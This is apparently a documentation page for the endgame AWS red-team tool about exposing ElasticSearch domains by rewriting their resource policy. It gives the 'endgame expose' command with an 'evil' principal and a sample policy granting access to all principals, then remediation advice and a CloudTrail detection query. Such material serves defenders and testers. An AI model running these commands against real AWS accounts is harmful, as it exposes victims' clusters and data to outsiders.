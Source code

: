 # ElasticSearch Domains

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

> Note: The **Network Configuration** settings in ElasticSearch clusters offer two options - **VPC Access** or **Public access**. If VPC access is used, modification of the resource-based policy - whether using `endgame` or the CLI exploitation method - will not result in access to the internet. `endgame` only modifies the resource-based policy for the ElasticSearch cluster, so this will only expose ElasticSearch clusters that are set to **Public access*.

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service elasticsearch --name test-resource-exposure
```

* To get the content of the resource-based policy for ElasticSearch domain config, run the following command from the victim account:

```bash
aws es describe-elasticsearch-domain-config --domain-name test-resource-exposure
```

## Example

The response will contain a field titled `AccessPolicies`. AccessPolicies will contain content that resembles the below. Observe that the victim resource (`arn:aws:es:us-east-1:999988887777:domain/test-resource-exposure`) allows access to `*` principals, indicating a successful compromise.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "es:*",
      "Resource": "arn:aws:es:us-east-1:999988887777:domain/test-resource-exposure/*"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

The **Network Configuration** settings in ElasticSearch clusters offer two options - **VPC Access** or **Public access**. If VPC access is used, modification of the resource-based policy - whether using `endgame` or the CLI exploitation method - will not result in access to the internet. `endgame` only modifies the resource-based policy for the ElasticSearch cluster, so this will only expose ElasticSearch clusters that are set to **Public access*.

* Consider Migrating from Public Access to VPC Access, if possible. This will help you avoid a situation where an attacker could expose your ElasticSearch cluster to the internet with a single API call. For more information, see the documentation on [Migrating from Public Access to VPC Access](https://docs.aws.amazon.com/elasticsearch-service/latest/developerguide/es-vpc.html#es-migrating-public-to-vpc).

However, if **Public Access** _is_ necessary, follow the steps below to remediate this risk and reduce the likelihood that a compromise in your AWS account could lead to exposure of your ElasticSearch cluster.

* **Trusted Accounts Only**: Ensure that ElasticSearch Clusters are only shared with trusted accounts, and that the trusted accounts truly need access to the ElasticSearch cluster.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your ElasticSearch Clusters**: Tightly control access to the following IAM actions:
  - [es:UpdateElasticsearchDomainConfig](https://docs.aws.amazon.com/elasticsearch-service/latest/developerguide/es-configuration-api.html#es-configuration-api-actions-updateelasticsearchdomainconfig): _Grants permission to modify the configuration of an Amazon ES domain, which includes the Resource-Based Policy (RBP) content. The RBP can be modified to allow access from external IAM principals or from the internet._
  - [es:DescribeElasticsearchDomainConfig](): _Grants permission to view a description of the configuration options and status of an Amazon ES domain. This includes the Resource Based Policy content, which contains information on which IAM principals are authorized to acccess the cluster._
  - [es:ListDomainNames](https://docs.aws.amazon.com/elasticsearch-service/latest/developerguide/es-configuration-api.html#es-configuration-api-actions-listdomainnames): _Grants permission to display the names of all Amazon ES domains that the current user owns._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='es.amazonaws.com' and eventName='UpdateElasticsearchDomainConfig'
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [ElasticSearch Resource-based Policies](https://docs.aws.amazon.com/elasticsearch-service/latest/developerguide/es-ac.html#es-ac-types-resource)
* [Migrating from Public Access to VPC Access](https://docs.aws.amazon.com/elasticsearch-service/latest/developerguide/es-vpc.html#es-migrating-public-to-vpc)
